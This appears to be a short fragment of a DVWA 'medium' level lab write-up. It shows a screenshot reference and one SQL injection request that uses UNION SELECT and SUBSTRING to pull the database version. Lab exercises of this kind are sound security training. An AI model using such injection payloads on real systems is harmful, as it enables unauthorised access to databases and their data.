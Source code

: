 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2061.png)

```sql
id=1 UNION SELECT 1,SUBSTRING((SELECT @@version),1,20); &Submit=Submit
```
